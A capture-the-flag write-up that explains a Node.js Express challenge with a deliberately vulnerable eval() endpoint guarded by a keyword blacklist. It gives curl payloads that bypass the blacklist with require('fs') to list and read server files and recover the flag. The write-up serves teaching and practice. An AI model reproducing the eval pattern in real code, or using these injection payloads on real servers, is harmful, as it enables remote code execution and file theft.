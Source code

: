 ## Description  
>It takes many good deeds to build a good reputation, and only one bad
function to lose it. url: http://35.239.219.201:4000/  
Source:
https://ctf.shakticon.com/files/a0fcc3b2e2bd831cb93123757167e6ae/main.js?token=eyJ1c2VyX2lkIjo4MDIsInRlYW1faWQiOjI4MSwiZmlsZV9pZCI6NDN9.YGlnjw.MK0LzBnHiKdfRIo4S0RVENkIefY  
Author: Gopika

## Solution

The app source code is super short:  
```js  
var express = require('express');  
var app = express();

app.get('/', function (req, res) {

 var inp = req.query.text;

 if(inp){  
   const blacklist = ['system', 'child_process', 'exec', 'spawn', 'eval'];

   if(blacklist.map(v=>inp.includes(v)).filter(v=>v).length !== 0){  
     res.send("That function is blocked, sorry XD");  
     return;  
   }

   res.send('Welcome to the world ' + eval(inp));  
   console.log(req.query.text);  
 }else{  
   res.send("Hey aren't you missing something??");  
   return;  
 }  
});

app.listen(4000, function () {  
 console.log('app listening on port 4000!');  
});  
```

There's a blacklist and an `eval()` call. We can use the `fs` package to list
directories, read files etc.  
```  
$ curl
"http://35.239.219.201:4000/?text=require('fs').readdirSync('.').toString()"  
Welcome to the world
.bash_history,.bash_logout,.bashrc,.cache,.gnupg,.local,.pm2,.profile,.ssh,Dockerfile,hosts,main.js,node_modules,package-
lock.json  
```

I looked around for a flag file but couldn't find one. Turns out the flag was
actually stored in the `hosts` file inside the app's current directory
(`/app`) for some reason.  
```  
$ curl
"http://35.239.219.201:4000/?text=require('fs').readFileSync('hosts').toString()"  
Welcome to the world 127.0.0.1  localhost  
::1     localhost ip6-localhost ip6-loopback  
fe00::0 ip6-localnet  
ff00::0 ip6-mcastprefix  
ff02::1 ip6-allnodes  
ff02::2 ip6-allrouters  
172.17.0.2      07e38cb70e8f

# so you found out even if I hid it in not-so common places. one stupid
function and it made all my secrets public.
shaktictf{eval_1s_n0t_safe_f0r_reputation}  
```

Flag is `shaktictf{eval_1s_n0t_safe_f0r_reputation}`